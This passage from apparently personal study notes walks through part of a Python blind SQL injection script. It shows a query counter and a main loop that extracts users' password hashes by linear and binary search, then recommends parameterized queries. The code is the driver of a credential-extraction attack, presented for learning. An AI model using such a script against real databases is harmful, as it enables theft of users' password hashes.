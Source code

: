 ### 8. **Query Counter Function**
   ```python
   def total_queries_taken():
       global total_queries
       print("\t\t[!] {} total queries!".format(total_queries))
       total_queries = 0
   ```
   **Explanation**:
   - **total_queries_taken()**: Prints out the total number of queries made so far and resets the counter.

### 9. **Main Loop**
   ```python
   while True:
       try:
           user_id = input("> Enter a user ID to extract the password hash: ")
           if invalid_user(user_id):
               print("\t[X] User {} does not exist!".format(user_id))
           else:
               user_password_length = password_length(user_id)
               print("\t[-] User {} hash length: {}".format(user_id, user_password_length))
               total_queries_taken()
               password_hash = extract_hash(charset, user_id, user_password_length)
               print("\t[-] User {} password hash: {}".format(user_id, password_hash))
               total_queries_taken()
               password_hash_bst = extract_hash_bst(charset, int(user_id), user_password_length)
               print("\t[-] User {} password hash using BST: {}".format(user_id, password_hash_bst))
               total_queries_taken()
       except KeyboardInterrupt:
           print("\n[!] Exiting...")
           break
   ```
   **Explanation**:
   - **Main Loop**: Continuously prompts the user to enter a `user_id` and attempts to extract the password hash.
   - **invalid_user(user_id)**: Checks if the user ID exists.
   - **password_length(user_id)**: Determines the length of the user’s password.
   - **extract_hash() and extract_hash_bst()**: Extract the password hash using both linear and binary search methods.
   - **KeyboardInterrupt**: Handles a `Ctrl+C` keyboard interruption to gracefully exit the program.

### Final Observations:
- **Optimization**: The use of binary search in `extract_hash_bst` makes the extraction process significantly faster for long hashes, as it reduces the number of necessary queries.
- **Security Note**: The code demonstrates a common SQL injection attack vector. This highlights the importance of using parameterized queries or ORM methods in web development to prevent such vulnerabilities.

# Output

![[Pasted image 20240815215023.png]]